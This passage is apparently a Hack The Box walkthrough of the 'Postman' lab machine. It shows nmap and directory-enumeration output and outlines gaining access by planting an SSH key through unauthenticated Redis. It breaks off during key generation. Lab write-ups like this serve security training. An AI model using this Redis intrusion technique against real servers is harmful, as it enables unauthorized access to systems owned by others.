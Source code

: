 ----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n postman.htb
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
    |   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
    |_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
    80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: The Cyber Geek's Personal Website
    10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
    |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -p- postman.htb
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
    6379/tcp  open  redis   Redis key-value store 4.0.9
    10000/tcp open  http    MiniServ 1.910 (Webmin httpd)

  nmap -Pn -sV -n -sU postman.htb
    PORT      STATE SERVICE VERSION
    10000/udp open  webmin  (https on TCP port 10000)

2. Enumerate port 80/10000 with dirb and nikto
    loot:
      .. http://postman.htb/css/
      .. http://postman.htb/fonts/
      .. http://postman.htb/images/
      .. http://postman.htb/js/
      .. http://postman.htb/upload/
      .. https://postman.htb:10000/

3. Redis on port 6379 seems to be unauthenticated, we can reach it using redic-cli -h postman.htb
   This can be exploited to give us a reverse shell uploading our public key to authorized_keys.
   We can either do this manually, or automatically with the script redis.py
    (https://github.com/Avinash-acid/Redis-Server-Exploit)

    --- MANUALLY ---
    root@p3:/opt/htb/machines/postman# ssh-keygen -t rsa
      Generating public/private rsa key pair.
      Enter file in which to save the key (/root/.ssh/id_rsa): postman-id_rsa
      Enter passphrase (empty for no passphrase):                                   (blank)
      Enter same passphrase again:                                                  (blank)
      Your identification has been saved in postman-id_rsa.
      Your public key has been saved in postman-id_rsa.pub.
      The key fingerprint is:
      SHA256:JNjykISF8kNnxmrqE9LuEAruVeV7AKpiSIKJJZrWhCw root@p3
      The key's randomart image is:
      +---[RSA 3072]----+